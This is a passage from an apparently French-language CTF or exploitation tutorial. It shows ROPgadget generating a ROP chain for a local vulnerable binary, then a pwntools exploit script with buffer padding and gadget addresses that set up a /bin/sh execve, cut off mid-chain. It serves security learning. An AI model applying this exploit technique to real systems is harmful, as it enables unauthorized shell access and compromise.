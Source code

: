 On utilise ensuite l'outil ropgadget qui nous offre une superbe ropchain faite à partir de notre programme vulnérable :

```shell
$ ropgadget --binary vuln --ropchain
```

L'output est long (verbeux), je n'en mets qu'une partie :

<img class="img_full" src="ropgadget.png" alt="ropgadget" >

On en fait donc un fichier python, notre exploit est donc :


```python
#!/usr/bin/env python2

from pwn import *

# Setting up
context.log_level = "debug"

offset = 264
payload = "A" * offset
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x000000000043167d)  # pop rax ; ret
payload += '/bin//sh'
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x000000000045f661)  # mov qword ptr [rsi], rax ; ret
payload += p64(0x000000000040158b)  # pop rdi ; ret
payload += p64(0x00000000006b41c0)  # @ .data
payload += p64(0x00000000004016a7)  # pop rsi ; ret
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x0000000000432ef5)  # pop rdx ; ret
```